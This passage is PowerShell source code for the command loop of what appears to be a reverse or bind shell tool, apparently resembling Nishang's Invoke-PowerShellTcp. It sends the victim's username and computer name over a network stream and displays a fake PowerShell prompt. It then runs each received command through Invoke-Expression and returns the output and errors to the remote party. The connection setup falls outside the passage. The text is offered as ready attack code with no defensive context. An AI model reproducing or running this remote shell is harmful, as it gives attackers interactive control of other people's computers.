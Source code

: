 ```powershell

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

```